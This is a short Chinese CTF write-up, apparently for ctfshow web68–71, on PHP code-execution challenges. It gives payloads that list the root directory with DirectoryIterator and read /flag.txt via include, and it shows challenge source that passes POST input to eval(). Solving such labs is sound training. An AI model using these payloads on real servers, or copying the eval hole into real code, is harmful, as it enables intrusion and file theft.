 ### web68-70

`highlight_file()`被禁了

还是先看目录

`$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}`

payload:

```php
include('/flag.txt')等
```

### web71

给了源码

```php
<?php
error_reporting(0); //关闭了所有的错误显示
ini_set('display_errors', 0); //将这个配置项设置为0，表示不在网页上显示报错
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>
你要上天吗？
```

知识点

```
ob_get_contents — 返回输出缓冲区的内容，只是得到输出缓冲区的内容，但不清除它。 
ob_end_clean — 清空（擦除）缓冲区并关闭输出缓冲
```

```php
<?php

ob_start();

echo "Hello ";

$out1 = ob_get_contents(); //Hello

echo "World";

$out2 = ob_get_contents(); //Hello World

ob_end_clean();

var_dump($out1, $out2);
?>
```
